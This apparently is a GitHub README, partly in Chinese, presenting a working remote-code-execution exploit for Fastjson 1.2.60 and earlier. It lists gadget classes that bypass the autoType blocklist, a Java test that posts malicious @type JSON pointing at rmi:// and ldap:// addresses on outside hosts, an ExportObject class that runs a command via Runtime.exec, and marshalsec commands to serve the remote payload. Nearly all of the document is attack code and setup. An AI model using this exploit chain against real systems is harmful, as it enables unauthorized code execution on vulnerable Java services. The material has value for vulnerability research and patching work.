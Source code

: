 # Fastjson <= 1.2.60 反序列化漏洞 

## By Pass autoType Block List with 2 Gadgets (JNDIConfiguration、OracleManagedConnectionFactory )

![](./Fastjson-1.2.60-RCE.gif)



## Gadgets
```
经过测试，命中的4个文件都是可以利用的。

不过其中HikariConfig类就是前文提到的类，在最新版本被加入黑名单，JNDIConnectionPool类在42版本前就被加入黑名单了。

另外的两个类JNDIConfiguration和 OracleManagedConnectionFactory都可以构造出攻击poc，且尚未被加入黑名单。

source/commons-configuration-1.9/org/apache/commons/configuration/JNDIConfiguration.java containsKey

source/commons-configuration-1.9/org/apache/commons/configuration/JNDIConfiguration.java getProperty

source/HikariCP-3.3.1/com/zaxxer/hikari/HikariConfig.java getObjectOrPerformJndiLookup

source/ojdbc14-10.2.0.2/oracle/jdbc/connector/OracleManagedConnectionFactory.java setupXADataSource

source/xalan-2.7.2/org/apache/xalan/lib/sql/JNDIConnectionPool.java findDatasource
```

### FastJsonTest.java
```
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.JSONObject;
import com.alibaba.fastjson.parser.ParserConfig;

public class FastJsonTest {
    public static void main(String[] args){

        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        String jsonStr1 ="{\"@type\":\"oracle.jdbc.connector.OracleManagedConnectionFactory\",\"xaDataSourceName\":\"rmi://10.10.20.166:1099/ExportObject\"}";
        String jsonStr2 = "{\"@type\":\"org.apache.commons.configuration.JNDIConfiguration\",\"prefix\":\"ldap://10.10.20.166:1389/ExportObject\"}";
        JSONObject json = JSON.parseObject(jsonStr2);
        json.toJSONString();
    }
}
```

### ExportObject.java
```
import java.io.BufferedReader;
import java.io.InputStreamReader;

public class ExportObject {
    public ExportObject() throws Exception {
        Process proc = Runtime.getRuntime().exec("calc");
        BufferedReader br = new BufferedReader(new InputStreamReader(proc.getInputStream()));
        StringBuffer sb = new StringBuffer();

        String line;
        while((line = br.readLine()) != null) {
            sb.append(line).append("\n");
        }

        String result = sb.toString();
        Exception e = new Exception(result);
        throw e;
    }

    public static void main(String[] args) throws Exception {
    }
}

```

## RMI RefServer
`java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://192.168.2.18:8000/#ExportObject`

## LDAP RefServer
`java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://192.168.2.18:8000/#ExportObject`
![](./1.2.60.png)

## 参考链接：

https://mmbiz.qpic.cn/mmbiz_png/f2yQgjGph7MnkCl1YEUxd6Q8mDjQkicxL7JuOFjxlOjWwQtWyYQzjE5yYkSuJVwic9qdnmRYXTtEJqxM3Efc1lYw/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1

https://www.freebuf.com/articles/web/213327.html

https://mp.weixin.qq.com/s?__biz=MzUyNTk1NDQ3Ng==&mid=2247484350&idx=1&sn=de51dd5707a2ff5464423407195e9177&scene=21#wechat_redirect
